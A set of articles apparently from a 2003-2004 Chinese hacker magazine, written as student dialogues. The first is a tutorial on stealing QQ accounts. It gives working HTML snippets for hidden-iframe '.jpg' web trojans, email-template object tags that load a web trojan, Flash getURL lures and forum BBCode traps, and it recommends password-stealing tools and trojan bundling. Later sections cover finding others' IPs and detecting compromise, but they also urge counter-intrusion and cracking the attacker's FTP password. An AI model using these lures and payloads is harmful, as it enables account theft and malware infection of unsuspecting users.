独孤客：知己知彼百战不殆，所以在盗号前要尽可能了解对方的情况。

> > “骇”回QQ前要尽可能了解的情况：
> 对方的IP、QQ版本、操作系统、有无杀毒软件和防火墙、邮箱、喜好


黑客X档案2003 2004年合订本(下卷)

## 小鸡快跑

学弟B：那怎么才能知道对方的IP呢？

独孤夕客：这个呆会儿再讲，不过你可以和对方聊天时“套”出来。怎么“套”就看你的技巧了。下面给你们推荐几个工具。

推荐工具：
- QQ密码杀手7.01（强烈推荐，这是我试用过的成功率最高的一款盗QQ密码工具）
- 好友QQ好好盗for 2004
- 密码使者2004
- 广外幽灵
- 反弹端口木马

学弟B：为什么还要用反弹木马呢？

独孤夕客：这里给大家说一下为什么要用反弹端口木马，主要是为了防止对方25端口做了限制，致使服务端无法发信。使用木马就可先杀掉对方的QQ进程，然后马上打开键盘记录，这样对方再次登陆QQ时，键盘输入就会被记录下来。其实只要你的木马够好，这种办法是比较有效的。

学弟A：不错不错，红烧鸡翅我喜欢吃，也喜欢玩木马，嘿嘿！

学弟C：别乱吃，那是给学长的。学长，如果SMTP发送密码的盗号工具不好用，还有没有其他的发送方式呢？

独孤夕客：当然有了。可以通过FTP发送啊！工具你们就自己找吧！总之在行动前要了解清楚对方的情况，准备好自己的工具（最好是加工过不被查杀的）。

独孤夕客：好了，下面我们先从简单直接的方式开始！

#### 直接欺骗

即直接把木马程序发送给对方，对方打开后种木马。

学弟A：如果对方这么白痴，我还用得着你吗？

独孤夕客：当然，稍有点经验的人是不会中招的，这只能骗那些刚上网不知木马为何物的初生牛犊。但如果你在木马的包装上下功夫，而且了解对方对于网络安全的意义不是很强的话，这招还是可行的。毕竟这种方法最直接最有效。

**例证：好友QQ好好盗2004**

这是款专盗好友QQ密码的软件，当然前提是你已经在对方的好友里了。设置方法很简单，而且会绑定一张图片（以屏保程序.scr为后缀名），如图1。相关的选项帮助文件说得很详细，请大家自己看吧！


当然，大家还可在网上找一个有趣的Flash（注意：要以exe为扩展名的那种），然后捆绑上木马发送给对方。

学弟A：对方不打开怎么办？

学弟B：白痴啊你，你不会找点有吸引力的东东啊！

独孤夕客：对的，所以在开始行动之前要了解对方的喜好，还要在捆绑上下点功夫，捆绑工具要选可以更改图标的，然后用图标工具找到较具迷惑性的图标捆绑发给对方。光盘提供的QQ密码杀手7.01自解压后有个“菜鸟教程”，里面相关使用说明和捆绑制作（其中有QQ杀手自带的捆绑、用RAR制作捆绑、用IExpress捆绑），很详细，大家自己看吧！

学弟C：原来如此啊！

学弟A：这招倒是个好，但要对方接收文件又打开，很难呀！我觉得还是事先在对方用的电脑里动手脚更好，比如学校的机房！

学弟B：你怎么知道他用哪台电脑？每台都动手脚把你累死！

学弟C：你是不是想对机房搞什么鬼？是不是想盗小女生的QQ号？没听大哥说吗，盗号是可耻的行为，我们要学的是如何盗回自己的QQ。呵呵！

学弟A：你说什么，你小子还不是想……

独孤夕客：好了，别吵了，我们继续吧！

#### 侵入对方系统种马

在获取了对方的一些情况后（比如闲聊中探出对方是XP系统），而此时对方的QQ号是有公网IP的个人电脑。


学弟A：怎么才知道对方是公网的呢？

独孤夕客：如图2所示，对方的端口是4000、4001、4002，这样的端口一般都是公网IP的。

公网IP：上网的计算机得到的IP地址是Internet上的非保留地址。公网的计算机和Internet上的其他计算机可随意互相访问。

内网IP：上网的计算机得到的IP地址是Internet上的保留地址，保留地址有如下3种形式：
- 10.x.x.x
- 172.16.x.x至172.31.x.x
- 192.168.x.x

内网的计算机以NAT（网络地址转换）协议通过一个公共的网关访问Internet。内网的计算机可向Internet上的其他计算机发送连接请求，但Internet上其他的计算机无法向内网的计算机发送连接请求。

学弟B：然后呢？

独孤夕客：现在就可直接扫描对方了，看看有没有弱口令、漏洞之类的，以直接入侵对方的操作系统种马（当然，之前你要用社会工程学打听对方的操作系统是不是NT以上的，如果是Win98，这步就可以跳过了，问不出也可用ping命令来判断，判断方法以前的《黑客X档案》有介绍）。用什么扫描工具就看你的了，如果对方是NT以上的系统，一般都会有漏洞，毕竟喜欢上网泡MM的人多，勤快打补丁的人少。

这里建议菜鸟们先用X-Scan扫描看看（图3）。当然，你也可用流光及各种漏洞扫描工具（如专门扫描ms04011漏洞的dsscan.exe）。


独孤夕客：我想，当你得到有管理员权限的Shell时（图4），那就成功一半了，接下来只是上传木马。怎么上传木马就不用我教了吧，实在不会可以参考前几期的《黑客X档案》。

学弟A：我还不会哦？

学弟C：这个时候可以用TFtp上传木马了。


学弟B：自己去看吧，大哥的时间有限啊！

独孤客：我们继续！毕竟公网IP少得可怜，不是每个人都有的。上面的这个方案有很大的局限性，下面我们就来说说网页木马吧。

#### ——网页木马

独孤客：关于网页木马，《黑客X档案》已经给大家介绍得很多了，网上也有很多这方面的教程，大家要自己去吸收。这里我就说一些伪装欺骗的方法。

##### Jpg木马

独孤客：如果你的QQ好友发给你的一个这样的网址：http://www.xxx.com/001.jpg，还告诉你这是MM的照片，你一定会打开看看吧！其实打开后浏览器上出现的也是一张图片，但木马却已在你的系统运行了。

学弟B：我知道了，这就是Jpg木马。

独孤客：下面我们来看看如何制作。打开记事本写下如下代码，然后另存为jpg格式：

```html
<html>
<iframe src="你的网页木马地址" width="0" height="0" frameborder="0"></iframe>
<center></center>
</html>
```

#### ——Flash木马

独孤客：这种网页木马表面上是个Flash动画，当你正津津有味地看动画时，网页木马已不知不觉运行了。我们可以制作一个Flash木马，然后上传至主页空间，把网址发送给对方，或直接把生成的Flash文件发送给对方。

学弟A：真惨啊！看动画都会被种木马。

独孤客：也不要太担心了，大家增强安全意识、加强些安全设置就可以，下面我们看看制作过程。

打开Flash MX。这里我们需要用到一个制作Flash的动作脚本，原理是：我们在动画的第一帧让其加载木马网页，第二帧让其加载一个正常的Flash动画，先来加载我们的网页木马。在第一帧上点击鼠标右键，在弹出的菜单中选择“动作”，依次打开“动作→浏览器/网络→getURL”，在url里输入网页木马的地址，如图5。


然后在第二帧点击鼠标右键，在弹出的菜单中选择“插入空白关键帧”，再打开动作面板，依次展开“动作→浏览器/网络→loadmovie”，在url里输入一个正常的Flash动画地址。

最后选择“文件→输出影片”就完成了。然后把得到的swf文件上传到主页空间，现在你只需把你的动画地址发给别人，就可让对方中木马了！

学弟A：好耶！网页木马还真不错。

学弟B：不过没有网页空间怎么办？

独孤客：可以用你的肉机来做啊！

学弟C：《黑客X档案》讲过的，自己去看，是吧！学长。

独孤客：温故而知新啊！不过，被QQ病毒那一阵狂闹，对于网友发来的网址很多人都会有所防范。如果对方不打开我们的网页，还得再想其他方案。

学弟B：对了，大哥开始说要了解对方的邮箱，有用吗？是要给对方邮箱发送有木马的附件吗？

独孤客：这也不错啊。不过，我们不是给对方发邮件，而是发一封邮件木马。

#### ——邮件木马

独孤客：当然，如果你和对方聊得很起劲，弄到他的邮箱不是问题吧！这里我们以动网网页木马为例，制作一个邮件木马（当然还可以通过附件给对方发送木马，只要你的木马伪装得够好）。

我们用Foxmail新建一个网页模板，然后在<body></body>之间加上如下代码：

```html
<object data="http://你的网址/lhxyexe.asp" weight=0 width= 0></object>
<object data="http://你的网址/lhxyhta.asp" weight=0 width= 0></object>
```

操作步骤：运行Foxmail，打开“工具→模板管理”，然后新建一个模板，保存后关闭。

在Foxmail的安装目录里找到“\Template\New\”下你刚才新建的模板文件，用记事本打开，将上面的代码在<body></body>之间添加上即可。


写信时点击工具栏上的“撰写”，选择你新建的模板（图6），然后发送给对方，只要对方打开邮件就会运行你的网页木马。

学弟A：明白了，只是担心对方不常打开邮箱啊。

学弟B：笨蛋，你不会给对方发了一封邮件啊，而且邮件内容最好是对方感兴趣的。

独孤客：当然，上面所说的每种方案并不是百分之百会成功，要根据实际情况而论。如果还不成功的话，大家可试试放长线钓大鱼。这就是下面要说的。

#### ——论坛放马

独孤客：如果你怎么“诱骗”对方都不上当，但清楚对方常去某个论坛，就可到他常去的论坛放马（我下面说的以动网为例）。

知道了对方常去的论坛，我们就要好好研究一下论坛是否有可利用的漏洞，这方面的文章《黑客X档案》也介绍过很多了，笔者就不再狗尾续貂了。

如果你已获得对方常去论坛的管理员用户和密码，那是最好不过的了，你可在论坛的广告里写上你的网页木马地址的代码，这样所有进入论坛的人都会种马（好像有点毒了）。

学弟A：论坛的管理员也都不是吃干饭的，像我们这样的草民如果无法得到管理员权限，该怎么办呢？

独孤夕客：不要紧，我们来发个木马帖。

学弟C：木马帖？

#### 文字欺骗型木马帖

独孤夕客：登入论坛发表新帖，输入[url=http://你的网页木马地址]在网上找到的好东西！[/url]，如图7。


当别人访问这个帖子时，只能看到“在网上找到的好东西！”，如果对方点击了就会中木马，状态栏会有提示，但很多人并不在意。当然，你的网页木马最好做一下相应的修改，比如在此帖里可以加一些吸引人的链接让别人下载。

#### 图片欺骗型木马帖

独孤夕客：首先准备好一张很大的图片（主要是利用动网论坛对帖子的严格宽度限制，对方为了看清图片就会点击图片链接，从而中马），在记事本中写下如下代码：

```html
<html>

<iframe src="你的网页木马地址" width="0" height="0" frameborder="0"></iframe>
</html>
```

保存为01.jpg（注意：这个“O”是字母“o”的大写），再上传到主页空间。然后进入论坛发表新帖：

[url=http://你的网址/01.jpg][img]http://你的网址/01.jpg[/img][/url]

这样，当对方打开这个帖子时看不到图片的全部，就会点击图片的链接从而种马。因为O1.jpg和01.jpg（前面是数字的“0”）非常相似，所以很少有人会注意它们的差别。

#### Flash木马帖

独孤夕客：我们可以直接利用上一个方案的Flash木马，进入论坛发表新帖：

[FLASH = 350,50,1]http://你的flash网页木马地址[/FLASH]

如果在禁止Flash标签的论坛发，可跳转FLASH动画。把“[FLASH][/FLASH]”替换成“[MP=0,0,1][/MP]”或REAL格式的媒体标签就可以了，因为在Media Player7版本以后和Real Player都有播放Flash的功能，禁用Flash标签只能在IE中禁用播放，却不能阻止在Media Player和RealPlayer中播放。

在论坛签名中我们也可用来种马，这样只要对方浏览了你的帖子就会中马（图8）。


独孤夕客：做好木马帖之后，只要骗对方去浏览就行了。

学弟A：要是对方没有常去的论坛怎么办啊？

学弟B：你不会给对方介绍一个放了马或者你取得了管理员权限的论坛啊！只要对方去浏览就可以了。

学弟A：我突然想起来了，如果对方把你的QQ号盗取后改了密码，然后就再也不用了，那怎么办啊？

独孤夕客：还有一种更白痴的方法，网上有QQ在线破解工具，《黑客X档案》以前也提过，但我没试成功过，这种方法大多靠运气，而且现在不一定行得通，腾讯的服务器总不能让你一次又一次瞎登陆吧！

学弟C：对了，学了这么多都是盗号的，怎么防止自己的号被盗呢？

独孤夕客：嗯！下面就给你们一点防范意见吧！

#### ——防范技巧

独孤夕客：一般而言，只要做到以下几点就够了。

1. 申请密码保护，个人电脑的QQ登陆可设为自动登陆；
2. 使用QQ防盗外挂；
3. 不轻易打开网友发的网址或文件，可用虚拟机打开；
4. 勤打补丁，及时更新系统；安装防火墙，杀毒软件及时更新；
5. 限制25端口，使用SMTP发信的盗密工具失效（相关设置请看2003.12期《黑客X档案》的“永远消失的邮件密码”一文）。

独孤夕客：好了，我们小结一下吧！

学弟A：小结啊，我们吃了五个鸡翅，六包瓜子……

学弟C：昏！

独孤夕客：这些方案归根结底就是一个如何种马的问题，有直接的，也有间接的。希望你们能多想些不同办法，还有盗号始终是种不道德行为，我们拒绝盗号，但有时我们也必须维护自己的权益，所以才给你们说了几种盗回密码的方案。可别用来做坏事哦！

众学弟：放心，我们可是一等良民。
一眨眼功夫那群学弟就四处散开，直奔学校机房去了（汗～～～！）

（本文提到的以下工具光盘有收录：QQ密码杀手7.01，好友QQ好好盗for 2004、广外幽灵、X-Scan）


### IP攻防战

猪小伟

一日，小伟饥肠辘辘去食堂的路上，忽见同班好友大伟左手高举、以狼牙山五壮士之势狂奔而来……

“小伟，Help me！”
“STOP！What’s wrong？”小伟急忙刹住大伟的脚步。“不知道为什么，一上网就被人狂扫。”

“真晕！你的QQ有隐藏IP没？”
“嗯！好像……没有！”大伟支吾着。

“我说呢，现在那么多漏洞，一定是别人拿你练手啦！”

“那咋办？教教我吧！我知道你的电脑知识丰富，搞定了请吃KFC。”

“呀！盛情难却，只好给你补一课啦！”小伟一想到美味的鸡腿汉堡不禁抿了抿嘴。

小伟：现今，QQ已经成为大家上网必不可少的工具，于是关于QQ攻防的文章泛滥，今天主要给你讲的是隐藏QQ的IP和找出QQ的IP。其中有大家有所耳闻的方法，也有网上未公布的方法……

大伟：让你说重点，说那么多废话干


## 小鸡快跑

嘛！我K你哦！

小伟：俗话说的好，“要想打人就必须先学会挨打”，想要更好的攻击必先做好自己的防御工作（你见过将军穿睡衣出来迎战的吗）。我自己总结了一下，隐藏IP共有4种方法，且听我一一道来。

### 1.代理法

呵呵！这个方法自QQ诞生以来就被许多人所使用，且隐IP效果显著。我就简要说明下方法：打开QQ，选择“菜单→系统设置→代理设置”，填入代理相关信息，确定后重启QQ（由于QQ版本不同，可能设置略有不同，我这里以QQ2004版本为例）。虽然用代理隐藏IP的效果显著，但也有诸多缺点，如速度慢、不稳定（视代理而言）、且不安全（如果不是自己亲手做的代理，鬼知道对方代理放了些什么探测器呢）。

大伟：这我早知道，因为麻烦才不用，我要简单的方法！

小伟：OK！那接着说……

### 2.隐身法

小伟：的确，用代理是比较麻烦，那就说说隐身法吧！将QQ设为隐身后，用QQ外挂看看你的IP，看不到吧？究其原因，其实很简单，即暂时性的通过了QQ服务器中转消息。这样，当然也就把自己的IP隐藏了。

大伟：我拿刀砍你哦！

小伟：大哥，我做错什么了吗？

大伟：我隐身了还有谁找我聊天呀！快说说别的隐IP法！

### 3.服务器中转法

小伟：该方法原理显而易见，下面给你讲讲详细步骤吧：打开QQ，选择“菜单→个人设置→网络安全”，选择“通过服务器模式”，确定后重启QQ，方法也很简单。这样，无论是在线还是隐身，自己的IP都不会暴露！

大伟：很好很好，我等下给你大鸡腿吃！

小伟：承蒙大哥关心，小弟这还有一计，不知有没有兴趣？

大伟：洗耳恭听！

### 4.协议法

小伟：众所周知，QQ用的是UDP协议，但随着QQ的不断更新，现在的QQ也有了另一种功能——用TCP协议。由于前期的QQ版本用的是UDP协议，所以现在大多开发出来的显QQ IP工具都是针对UDP协议的，从而无法侦察到用TCP协议发消息的IP（据我所知，至今还没有人开发出专门针对以TCP方式登录的工具）。

方法实现很简单。打开QQ，选择“菜单→系统设置→登录设置”，在“高级选项”里将“设置你需要登录到的服务器的类型”选择为“TCP类型”，确定后重启QQ。哈！用TCP登录的好处是不言而喻的（我用天网监视TCP协议，发现用TCP登录是通过服务器中转的。所以即使有人抓包，也查不到你的IP），最大的好处是在双方传文件时比较稳定。

大伟：哦！那别人是怎么看到我的IP的呢？

小伟：那我还要外加大杯可乐哦！

大伟：NO Problem！

小伟：先说一句，在我的众多实验中，发现只有满足以下两个条件，才能查到对方的真实IP（毕竟我们和对方之间还隔了一台服务器）：
1.对方用“UDP类型”登录，且通讯模式为“通过点对点模式”；
2.QQ为在线模式，且没用代理。
要查对方IP，得借助额外的软件，我这里就给大家介绍几款（其原理都是抓UDP数据包，然后从中提取出对方的IP）。

小伟：首先要说的是我常用的QQ外挂，这个东东绝对方便、简单。下载到本地后解压，有n个文件，其中主程序是CoralQQ.exe，而CQQCfg.exe是配置程序。打开CQQCfg.exe，其界面如图1。


图1

大家在“QQ.exe/TM.exe/TMShell.exe所在位置”处填入QQ主程序的绝对路径，其他的功能还有自定义端口号等。设置好后打开主程序CoralQQ.exe就可启动QQ，登录后就可对对方的QQ秀下面看到其IP，在消息框原来显示广告的位置上也能显示IP，而且只要鼠标碰到消息框不动，不一会儿便会弹出一个框，上面还是记录着对方的IP。

大伟：不错是不错，可当我已启动QQ没用外挂而又想查别人的IP时，又不得重启带外挂的QQ吗？真麻烦！

小伟：非也非也！

大伟：不知大哥有何高见？

小伟：高见没有，工具倒有一款——QQ狙击手。其功能很强大，想查别人IP时开启即可，不查时则关闭。这样就可节约资源，其界面如图2。


图2

QQ狙击手不但可捕获对方的IP，还可监视QQ消息发送/接受整个的过程。这个功能就是“实时IP”，QQ狙击手还有很多功能，但不在此话题讨论范围之内，你可以自己研究一下！

大伟：嗯！不错的东东，可当我手头上没有以上工具时该怎么办呢？

小伟：这种情况下，我们不妨用防火墙（什么？你没装？安全意识太差了吧！快去装一个），我这里用的是天网防火墙，以前《X档案》专门讲过，这里只简单说一下。首先在天网的“IP规则”里选择“udp数据包监视”（图3），然后发信息给对方，再去查看防火墙的日志。结果如图4。


图3


图4


图5

不过这样设置产生的垃圾日志较多，不能很好的查出对方IP，下面来改进一下。自定义几个规则来查QQ的IP，我们打开天网，点击“应用程序网络使用情况”（即图

黑客X档案2003 2004年合订本(下卷)

## 小鸡快跑

标为耳朵的那个），选择所有协议，点开QQ使用的的协议情况，如图5。

小伟：这样，我们对QQ所使用的端口就一目了然。然后新建IP规则，把QQ所使用的端口都写进去。对了，尽量屏蔽对方8000端口，否则查出来的都是服务器的IP地址，动作选择为“继续下一规则”，数据包方向为接受，然后点击“UDP数据包监视”或“TCP数据包监视”（视个人登录类型不同而定。随便给好友发个信息，看一下日志，看看自己的QQ是用什么端口发信息的，然后再像上面一样新建一个IP规则。最后把自己新建的规则都勾上，点击“保存”。这样就能自己DIY了一个QQ IP的查看器。

大伟：嗯！不错！

小伟：呵呵！我肚子饿了，吃KFC去。
大伟：呀！忘带钱了，这次咱们先吃杂烩面吧，下次请KFC。
小伟：你……你！…你你你。哎！算了，填饱肚子先。GO！
（本文提到的珊瑚虫QQ外挂、QQ狙击手光盘有收录）


## 菜鸟如何判断自己是否被黑

独孤夕客

看了那么多久的《黑客X档案》，很多菜鸟们都有过“黑”与被“黑”的经历吧！我想大家都不想让自己的电脑被黑吧！特别是和我们一样看《黑客X档案》的“同行”。我们虽然是菜鸟，但都不想成为别人的“小鸡”。下面就来到我们的寝室去听听菜鸟们是如何“打黑”的！

小黑：嘿嘿！今天我在机房用木马控制了一个大一的小MM，哈哈！还加了她的QQ！

小白：（流口水……）搞啥子？真不要脸，大一的你都要下“毒”手，小心把你娃逐出寝室，快把她的QQ号加上缴！

小黄：那MM漂亮不？

小红：话又说回来，你们成天这样捉弄别人，万一·哪天你们被别人黑了呢？

小独：嘿嘿！那今晚我们就来讨论一下如何判断自己是否被黑吧！

## 菜鸟如何判断自己被黑

如何判断自己被黑？如果你机器配置较低且无故被占用大量资源，可以基本断定被人控制了。但如今很多朋友的机器配置都不差，所以就算我们被木马控制，仅从网速与电脑的反应上是判断不出的。

小黑：确实是这样，而且现在的木马程序占用的资源也很少。

小独：是的，不过被黑了总会留下一些蛛丝马迹的。比如以下的几种被黑情况：

## 1.密码丢失 机器异常

以QQ为例，当登陆QQ后，发现输入密码时密码有明文显示，对话框也有所不同（大家可以自己对比一下图1和正常的QQ登陆对话框）。


| QQ号码 | 手机号码 | 电子邮箱 | 详细登录方式 |
| ---- | ---- | ---- | ---- |
| QQ号码: | 417170556 | 清除 | |
| QQ密码: | duyanfei | 忘记密码 |  |
| □ 记住密码  □ 隐身登录 | | | |
| [中级密码保护] [升级向导] [取回密码] [注册向导] | | | |

图1 中了极品QQ盗号

小白：这么明显啊？哪像咱那么笨。

小黑：对啊，在机房里我经常用木马控制别人，怎么才能知道是不是“螳螂捕蝉，黄雀在后。”

小独：嘿嘿，方法还是很多的。

## 2.进程/端口实时监控

小独：有没有不知道进程的是什么的吧？

小黄：啥子，好像我不知道。

小白：踢出去，数学专业的连这也不知道。进程为应用程序的运行实例，是应用程序的一次动态执行。我们可简单地理解为：它是操作系统当前运行的执行程序。

小独：要看进程最简单的方法就是同时按下Ctrl+Alt+Del键，从而弹出任务管理器。图2是一个正常的、没有中木马的任务管理器，如果你在其中发现了类似“server”、“mir”等可疑进程，多半是中木马了。而且从任务管理器中我们也可了解CPU目前的使用情况，如果没有运行什么程序而无故被占用大量资源，那就要小心了（我用的北大方正笔记本电脑，当CPU资源使用紧张时，电脑的风扇就会响个不停，此时我就会查看是在什么在占用CPU资源）。

要想了解得更清楚，我们就要借用一些进程工具了，下面给大家介绍的木马克星也有这个功能，这里我也不详说了。总之发现可疑进程就要利用这些进程工具得到它的具体信息。


```
文件(F) 选项(O) 查看(V) 关机(U) 帮助(H)
应用程序 进程 性能 联网 用户
映像名称 用户名 CPU 内存使用
ccenter.exe SYSTEM 00 476 K
services.exe SYSTEM 00 1,828 K
svchost.exe SYSTEM 00 3,740 K
WINLOGON.EXE SYSTEM 00 1,916 K
taskmgr.exe duyanfei 02 2,404 K
explorer.exe duyanfei 00 15,348 K
tlntsvr.exe SYSTEM 00 1,674 K
TROLL5M.exe duyanfei 00 24,752 K
RavMonD.exe SYSTEM 00 1,692 K
RavTimer.exe SYSTEM 00 1,652 K
spoolsv.exe SYSTEM 00 3,740 K
wuaulct.exe SYSTEM 00 1,048 K
svchost.exe LOCAL SERVICE 00 1,760 K
svchost.exe NETWORK SERVICE 00 2,916 K
svchost.exe SYSTEM 00 3,234 K
lsass.exe SYSTEM 00 1,028 K
services.exe SYSTEM 00 3,912 K
winlogon.exe SYSTEM 00 1,828 K
csrss.exe SYSTEM 00 3,232 K
□ 显示所有用户的进程(S)

进程数: 32 CPU 使用: 6% 提交更改: 261776K / 558740K
```

图2

小黑：我听说有些木马会将进程隐藏起来，在任务管理器中看不到。

小白：没事，柳叶擦眼可以看到所有的进程，包括隐藏的。

小独：嗯！如果是要查远程控制木马的话，就可使用Windows本身自带的netstat命令。我们知道木马或是一个连接上系统的shell都会打开一个端口，直接在命令提示符下用netstat -an命令就可查看通过TCP/UDP协议传输打开的端口。一些主动连接型的木马就会在这里原形毕露，对于反弹连接型的木马，大家也不用害怕，只要它是使用TCP/UDP协议进行数据传输，我们就能找到它（注：反弹木马一般会访问某个IP的80端口，所以大家看到后也要多加小心，后面笔者给出了一个查找反弹木马的实例）。图3是系统被溢出后别人连接所开的端口。

看到了吧？本地端口1234对应着一个远程IP，大家可以自己试试看，观察在浏览网页时和这个被远程连接的不同。

小黑：哦！我也经常玩溢出，到没注意这个，要是被对方发现就糟了。

小黄：我可没功夫时去用netstat命令来看开了什么端口。


黑客X档案 2003-2004年合订本(下)

## 小鸡快跑

```
C:\WINDOWS\system32>netstat -a

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    hqj:epmap              hqj:0                  LISTENING
  TCP    hqj:microsoft-ds       hqj:0                  LISTENING
  TCP    hqj:1025               hqj:0                  LISTENING
  TCP    hqj:1027               hqj:0                  LISTENING
  TCP    hqj:1030               hqj:0                  LISTENING
  TCP    hqj:1031               hqj:0                  LISTENING
  TCP    hqj:netbios-ssn        hqj:0                  LISTENING
  TCP    hqj:1042               hqj:0                  LISTENING
  TCP    hqj:1043               hqj:0                  LISTENING
  UDP    hqj:microsoft-ds       *:*
  UDP    hqj:isakmp             *:*
  UDP    hqj:1026               *:*
  UDP    hqj:1033               *:*
  UDP    hqj:1037               *:*
  UDP    hqj:netbios-ns         *:*
  UDP    hqj:netbios-dgm        *:*
  UDP    hqj:1900               *:*
  UDP    hqj:ntp                *:*
  UDP    hqj:1900               *:*
  UDP    hqj:1234               *:*
  UDP    hqj:microsoft-ds       *:*
```


小独：关于端口监测，《黑客X档案》也说过很多了，我就不再重复了，这里给新手们说说如何使用防火墙来帮助我们实行端口实时监测。


这是因为程序状态栏中显示了目前打开的所有端口，包括TCP和UDP，还有打开的进程名和路径，这下你该知道是什么程序在使用哪个端口了吧！如果你觉得还不够详细的话，还可以点击菜单栏中的“日志”标签，这里才是重点。如图5。


这里给大家介绍国内最优秀的个人网络安全防护工具——天网防火墙个人版。天网防火墙可以有效地控制个人用户电脑的信息在互联网上的收发，用户自己可以通过设定一些参数，从而达到控制本机与互联网之间的信息交流，阻止和杜绝一些恶性信息对本机的攻击，比如ICMP flood攻击、聊天室炸弹、木马信息等。
程序使用及监听端口的情况，可以查看什么程序使用了端口？使用了哪个端口？是不是有可疑程序在使用网络资源（如木马程序）？然后可以根据要求在“自定义IP规则”里封了某些端口，以及禁止某些IP访问自己的机器等。如图4。
日志记录了你的程序访问网络和网上被IP扫描你端口的情况，大家可以参考一下，以便采取相应对策。如图5。
小红：嘿嘿！天网防火墙的设置很简单，大部分采用默认设置就好了。
小黑：真丢脸。还有什么方式发现被黑吗，小独？
小独：当然有了。

## 3.邮件发送监控

建议大家安装最新版的杀毒软件（我以瑞星2004为例），打开“选项→设置”里的“计算机监控”进行相关设定，里面的勾大家都打上吧！如图6。


设置好后，使用SMTP发送邮件的事件就会被实时监控。大家知道，大多数盗密软件都是通过SMTP来发送所盗到的密码信息的，这样我们就可在途中将其拦截下来。下面以QQ为例，如果你登陆QQ后突然窜出图7所示的对话框，多半是中了木马（图7是我在虚拟机上安装QQ盗密木马然后登陆QQ所做的试验）。


小黄：对啊！多数盗密软件都是用邮件发送密码的。
小黑：我还发现了一个奇怪的现象，就是不知道从什么时候起防火墙和杀毒软件被关闭了。
小独：恭喜你，这也可能是被黑的迹象！

## 4.防火墙、杀毒软件无故被关

小独：这也是中木马的表象之一，很多病毒或木马都有自动关闭防火墙和杀毒软件的功能。如果发现你电脑右下角状态栏的防火墙或杀毒软件图标不见了，而且无论你再打开多少次也会立马消失，那么就要小心了，多半被黑了。基本上传木马都会有这样的功能，所以小心看看你的帐号是否还健在。
小白：那发现被黑后该怎么办啊？
小红：嘿嘿！把电源拔了，关机最安全。
小黄：瓜娃子……
小红：黄麻子！
小黑：别吵了，关啥机器哦！当然是全力反击了，以牙还牙。
小独：等等，在反击之前，我们还得知道为什么被黑，入侵者是通过什么途径入侵的。

## 菜鸟如何知道为何被黑

小独：自己的机器被黑了，最危险的就是自己的帐号密码和个人隐私，特别是ADSL用户或网上银行的用户，被黑就直接面临经济损失。因此当被黑时，不能只解决问题了事，只知其然而不知其所以然，我们还要找到被黑途径的源头，尽量消除安全隐患。
小黑：吓人哦！我们寝室用的ADSL帐户还好吧？幸好是一个月结一次账啊。嘿嘿！根据我多年的“黑人”经验，总结了一下被黑原因：

- 1. 因某种原因将密码等信息告诉过网友。
- 2. 自己的电脑被别人用过。
- 3. 打开了网友发的文件或网址。
- 4. 没有安装杀毒软件和防火墙，或是安装了并没有及时升级。

小独：嗯！还有就是自己的系统是否存在漏洞或安装的应用软件是否存在漏洞（比如安装了srv-u版本是5.10以下的）。
小黄：哇！那我的电脑被其他寝室的人成天摆弄，岂不很险？要不要买份“机身”保险啊？
小黑：哈哈，该到反击揪真凶的时间了吧？

## 菜鸟如何揪出真凶


## 小鸡快跑

小白：知道自己被黑，当然不能坐视不理。那我们怎样才能找出真凶呢？

小狄：这个我们分别来说吧！

### 1. 对于盗密木马

找到盗密者设置的邮箱帐号和密码（或其他接收方式，如FTP），定能让对方后悔辛苦种马到头来只是为别人做嫁衣。

就以刚才我们拦截到的盗密木马发送的邮件为例，从瑞星弹出的邮件监控“警告”对话框中我们还可以了解到是什么应用程序试图发送邮件。

小黑：我记起来了，《黑客X档案》2004年第2期有篇文章“使用盗号木马的危险性”，或许我们可利用它找到种马的信息。

小狄：嗯！根据那篇文章的思路，我们可以通过上面邮件监控到的应用程序，用Winhex找到这个应用程序的进程，然后搜索整个内存，从而找到相关信息。

小白：咋个找嘛？又不知道邮箱的用户名。

小黑：白痴，你不会变一下，搜索文本查找“@163.com”。

小白：对啊对啊！下次要试试。

### 2. 对于远程控制木马

小黑：对于远程控制木马，最重要的就是如何查出对方的IP，找到了IP才有反入侵的下文。对于传统的木马，只需要查看一些端口就能找到对方的IP，但如果对方用的是反弹木马呢？

小狄：大家想想，现在流行的反弹木马都是通过域名转向或FTP来读取IP和端口信息的，这样一来，木马服务端运行时就会读取相关信息，自然也会通过http获取了。所以，如果我们截获这些信息的话，自然也就知道种马者的IP了。

小黄：想法倒不错，行不行啊？

小狄：下面就来看看木马克星是怎样帮我们追击反弹木马真凶的。


> > 广告时间（嘿嘿！希望木马克星的开发者看到了给我免费升级）

### 3. 木马克星

木马克星可以查杀5021种国际木马、112种电子邮件木马，保证查杀冰河类文件关联木马、QQ类寄生木马、ICMP类幽灵木马、网络神偷类反弹木马。内置木马防火墙，任何黑客试图与本机建立连接，都需要Iparmor确认，不仅可以查杀木马，更可以查黑客。

我在本地试验给大家看，就用黑洞2004的最新版本吧！

首先假设我准备好了不被查杀的服务端（其实把杀毒软件关了就假设成功了），打开木马克星的“查看→监视网络”，然后运行木马服务端，监视到图8所示信息。

到这里，我们已经了解了很多信息，入侵者的真正IP是10.0.0.12（这是我在局域网里的IP），202.115.128.57是一台FTP服务器的IP，从“Host:s024804.stu.ccdu.edu.cn”里我们可以了解种马者在FTP服务器上的用户名：s024804。

至此我们就剩下反入侵了（这里就不具体说了，得到了对方的IP该怎么做，《黑客X档案》也介绍了很多）。当然，如果你有兴趣，还可以破解对方FTP帐号s024804的密码，并将其改掉，让种马者偷鸡不成反蚀把米。

小黑：不错！网上有很多破用FTP的工具，X-way也可以。

小黄：嘿嘿！一定要狠狠地XXXX。

### 如何防患于未然

小狄：当然，下面的事情就是要加固自己的电脑，尽可能的减少被黑机会，其实这也是老生常谈了：

#### 菜鸟如何自保

- 1. 不轻易打开网友发的文件或网址（打开前用杀毒软件杀毒，最好用虚拟机打开）。
- 2. 安装杀毒软件和防火墙并及时更新。
- 3. 安全设置防火墙和路由器（如果有的话）、不要有弱口令。
- 4. 及时打补丁（虽然补丁的出现总比漏洞晚，但亡羊补牢总比什么都不做的好）。例如XP的用户升级到XP2版后会增强防火墙的功能，访问网络的程序都要经用户允许。如图9。
- 5. 在网上或杂志上看到入侵方式、就对自己的爱机下下“毒手”，发现有疏忽的地方时补上。


小狄：喂，怎么都睡了，光知道攻不注重防会出事的。

小黄：算了，我也去睡了，舍不得孩子套不住狼。

（本文提到的柳叶擦眼、木马克星光盘有收录）


王炜 / ww 0830

